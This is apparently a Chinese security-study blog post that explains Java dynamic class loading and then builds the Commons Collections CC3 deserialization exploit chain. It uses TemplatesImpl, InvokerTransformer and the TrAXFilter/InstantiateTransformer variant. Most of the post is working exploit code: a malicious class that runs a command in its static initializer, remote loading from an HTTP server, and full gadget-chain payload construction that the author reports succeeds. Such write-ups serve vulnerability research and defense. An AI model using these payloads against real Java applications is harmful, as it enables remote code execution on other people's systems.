









类的动态加载
Java类的动态加载是指在运行时，通过程序代码加载并使用Java类，而不需要在编译时将其全部静态加载。这种方式可以让开发者灵活地根据需要加载所需的类，而不必提前把所有的类都加载到内存中，从而节省内存空间。
Java提供了一些API来实现动态加载，最常用的是Class.forName()方法和ClassLoader.defineClass()方法。Class.forName()方法可以在运行时动态加载一个类，该方法返回一个Class对象，表示已经被加载的类。ClassLoader.defineClass()方法则是通过程序代码创建一个Java类的字节码，并将其转换为一个Class对象。
其中我们主要利用到的就是ClassLoader，ClassLoader在加载类的时候有三种方法，分别是loadClass方法、findClass方法以及defineClass方法。
在查找一个类的时候，ClassLoader首先通过loadClass方法从当前已经加载的所有类和父加载器中寻找类，没有找到的话再通过findClass从自定义类加载器中查找类文件，例如从一个本地文件系统或者远程http服务器上加载类，最终用defineClass方法来将生成的字节码转成Class对象。
findClass
我们首先来看看通过findClass查找类，写一段恶意类让Java程序加载
恶意类：
1 2 3 4 5 6 7 8 9 10 import java.io.IOException;public class runtime { static { try { Runtime.getRuntime().exec("calc" ); } catch (IOException e) { e.printStackTrace(); } } }
通过python部署编译过的runtime.class文件
1 python -m http.server 9999
加载runtime类
1 2 3 4 URL[] urls = {new URL ("http://localhost:9999/" )}; URLClassLoader urlClassLoader = URLClassLoader.newInstance(urls);Class clazz = urlClassLoader.loadClass("runtime" );clazz.newInstance();

作为攻击者，如果我们能控制url里的内容，则可以利用远程加载的方式执行任意代码
defineClass
defineClass可以直接将字节码转换成java类对象，通过反射调用defineClass执行恶意加载的类，如下代码
1 2 3 4 5 Method defineclassmethod = ClassLoader.class.getDeclaredMethod("defineClass" , String.class, byte [].class, int .class, int .class);defineclassmethod.setAccessible(true ); byte [] code = Files.readAllBytes(Paths.get("D:\\php_project\\shengji_study\\target\\classes\\runtime.class" ));Class clazz = (Class) defineclassmethod.invoke(ClassLoader.getSystemClassLoader(),"runtime" ,code,0 ,code.length);clazz.newInstance();

就是说通过Classload#defineClass()也可以命令执行，但defineClass一般很难直接调用
我们需要找一条能用的利用链
首先可以看到TemplatesImpl.TransletClassLoader.defineClass方法调用了defineClass

defineClass方法又被TemplatesImpl.defineTransletClasses方法调用

继续下去，最终找到一条利用链
TemplatesImpl#getOutputProperties
TemplatesImpl#newTransformer
TemplatesImpl#getTransletInstance（恶意类在这个方法里被实例化）
TemplatesImpl#defineTransletClasses
TemplatesImpl.TransletClassLoader#defineClass
Classload#defineClass()
其中TemplatesImpl#getOutputProperties和TemplatesImpl#newTransformer都是public方法，所以能被直接调用，但几个点需要注意：
在getTransletInstance方法中
1 2 3 4 5 6 private Translet getTransletInstance () throws TransformerConfigurationException { try { if (_name == null ) return null ; if (_class == null ) defineTransletClasses();
在defineTransletClasses中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 private void defineTransletClasses () throws TransformerConfigurationException { if (_bytecodes == null ) { ErrorMsg err = new ErrorMsg (ErrorMsg.NO_TRANSLET_CLASS_ERR); throw new TransformerConfigurationException (err.toString()); } TransletClassLoader loader = (TransletClassLoader) AccessController.doPrivileged(new PrivilegedAction () { public Object run () { return new TransletClassLoader (ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap()); } }); try { final int classCount = _bytecodes.length; _class = new Class [classCount]; if (classCount > 1 ) { _auxClasses = new HashMap <>(); } for (int i = 0 ; i < classCount; i++) { _class[i] = loader.defineClass(_bytecodes[i]); final Class superClass = _class[i].getSuperclass(); if (superClass.getName().equals(ABSTRACT_TRANSLET)) { _transletIndex = i; } else { _auxClasses.put(_class[i].getName(), _class[i]); } } if (_transletIndex < 0 ) { ErrorMsg err= new ErrorMsg (ErrorMsg.NO_MAIN_TRANSLET_ERR, _name); throw new TransformerConfigurationException (err.toString()); } } catch (ClassFormatError e) { ErrorMsg err = new ErrorMsg (ErrorMsg.TRANSLET_CLASS_ERR, _name); throw new TransformerConfigurationException (err.toString()); } catch (LinkageError e) { ErrorMsg err = new ErrorMsg (ErrorMsg.TRANSLET_OBJECT_ERR, _name); throw new TransformerConfigurationException (err.toString()); } }
所以最终的恶意类构造：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import java.io.IOException;import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;public class runtime extends AbstractTranslet { static { try { Runtime.getRuntime().exec("calc" ); } catch (IOException e) { e.printStackTrace(); } } @Override public void transform (DOM document, SerializationHandler[] handlers) throws TransletException { } @Override public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { } }
命令执行代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 TemplatesImpl templates = new TemplatesImpl ();Class c = templates.getClass();Field namefield = c.getDeclaredField("_name" );namefield.setAccessible(true ); namefield.set(templates,"123" ); Field bytecodesfield = c.getDeclaredField("_bytecodes" );bytecodesfield.setAccessible(true ); byte [] codes = Files.readAllBytes(Paths.get("D:\\php_project\\shengji_study\\target\\classes\\runtime.class" ));bytecodesfield.set(templates,new byte [][] {codes}); Field tfactoryfield = c.getDeclaredField("_tfactory" );tfactoryfield.setAccessible(true ); tfactoryfield.set(templates,new TransformerFactoryImpl ()); templates.newTransformer();

CC3链
也就是说我们现在只需要调用templates.newTransformer()就可以执行命令了，所以我们在cc6的基础上做一些修改
1 2 3 4 5 Transformer[] Transformers = new Transformer []{ new ConstantTransformer (templates), new InvokerTransformer ("newTransformer" ,null ,null ) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);
后面的步骤还是和cc6一样
故构建的测试代码为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 TemplatesImpl templates = new TemplatesImpl ();Class c = templates.getClass();Field namefield = c.getDeclaredField("_name" );namefield.setAccessible(true ); namefield.set(templates,"123" ); Field bytecodesfield = c.getDeclaredField("_bytecodes" );bytecodesfield.setAccessible(true ); byte [] codes = Files.readAllBytes(Paths.get("D:\\php_project\\shengji_study\\target\\classes\\runtime.class" ));bytecodesfield.set(templates,new byte [][] {codes}); Field tfactoryfield = c.getDeclaredField("_tfactory" );tfactoryfield.setAccessible(true ); tfactoryfield.set(templates,new TransformerFactoryImpl ()); Transformer[] Transformers = new Transformer []{ new ConstantTransformer (templates), new InvokerTransformer ("newTransformer" ,null ,null ) }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);TiedMapEntry tiedMapEntry = new TiedMapEntry (map,"13" );HashMap<Object,Object> hashMap=new HashMap <>(); hashMap.put(tiedMapEntry,"123" ); Class clazz = tiedMapEntry.getClass();Field mapfield = clazz.getDeclaredField("map" );mapfield.setAccessible(true ); mapfield.set(tiedMapEntry,lazymap); Test.Serialize(hashMap);
反序列化利用成功

实际上只是通过类的动态加载替换掉了Runtime.getRuntime().exec()，在Runtime类用不了的时候就可以使用这种方法。
但如果InvokerTransformer也不能使用的话，其实还有另一种方法。
我们可以找找看还有哪个类调用了TemplatesImpl#newTransformer方法

可以发现TrAXFilter类的构造方法调用了newTransformer，但TrAXFilter类没有实现序列化接口，所以只能通过类的getConstructor方法实例化对象
1 2 3 4 5 6 7 8 public TrAXFilter (Templates templates) throws TransformerConfigurationException { _templates = templates; _transformer = (TransformerImpl) templates.newTransformer(); _transformerHandler = new TransformerHandlerImpl (_transformer); _useServicesMechanism = _transformer.useServicesMechnism(); }
InstantiateTransformer类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 public InstantiateTransformer (Class[] paramTypes, Object[] args) { super (); iParamTypes = paramTypes; iArgs = args; } public Object transform (Object input) { try { if (input instanceof Class == false ) { throw new FunctorException ( "InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName())); } Constructor con = ((Class) input).getConstructor(iParamTypes); return con.newInstance(iArgs); } catch (NoSuchMethodException ex) { throw new FunctorException ("InstantiateTransformer: The constructor must exist and be public " ); } catch (InstantiationException ex) { throw new FunctorException ("InstantiateTransformer: InstantiationException" , ex); } catch (IllegalAccessException ex) { throw new FunctorException ("InstantiateTransformer: Constructor must be public" , ex); } catch (InvocationTargetException ex) { throw new FunctorException ("InstantiateTransformer: Constructor threw an exception" , ex); } }
所以通过以下代码即可实现命令执行：
1 2 InstantiateTransformer instantiateTransformer = new InstantiateTransformer (new Class []{Templates.class},new Object []{templates});instantiateTransformer.transform(TrAXFilter.class);

通过这种方法我们就可以不使用InvokerTransformer类来命令执行了
命令执行代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 TemplatesImpl templates = new TemplatesImpl ();Class c = templates.getClass();Field namefield = c.getDeclaredField("_name" );namefield.setAccessible(true ); namefield.set(templates,"123" ); Field bytecodesfield = c.getDeclaredField("_bytecodes" );bytecodesfield.setAccessible(true ); byte [] codes = Files.readAllBytes(Paths.get("D:\\php_project\\shengji_study\\target\\classes\\runtime.class" ));bytecodesfield.set(templates,new byte [][] {codes}); Field tfactoryfield = c.getDeclaredField("_tfactory" );tfactoryfield.setAccessible(true ); tfactoryfield.set(templates,new TransformerFactoryImpl ()); InstantiateTransformer instantiateTransformer = new InstantiateTransformer (new Class []{Templates.class},new Object []{templates});Transformer[] Transformers = new Transformer []{ new ConstantTransformer (TrAXFilter.class), instantiateTransformer }; ChainedTransformer chainedTransformer = new ChainedTransformer (Transformers);HashMap<Object,Object> map = new HashMap <Object,Object>(); Map lazymap = LazyMap.decorate(map, chainedTransformer);TiedMapEntry tiedMapEntry = new TiedMapEntry (map,"13" );HashMap<Object,Object> hashMap=new HashMap <>(); hashMap.put(tiedMapEntry,"123" ); Class clazz = tiedMapEntry.getClass();Field mapfield = clazz.getDeclaredField("map" );mapfield.setAccessible(true ); mapfield.set(tiedMapEntry,lazymap); Test.Serialize(hashMap);
反序列化利用成功

实际上CC3这条链并没有改变ChainedTransformer.transform()的利用链，只是换了种不需要Runtime类和InvokerTransformer类的ChainedTransformer类对象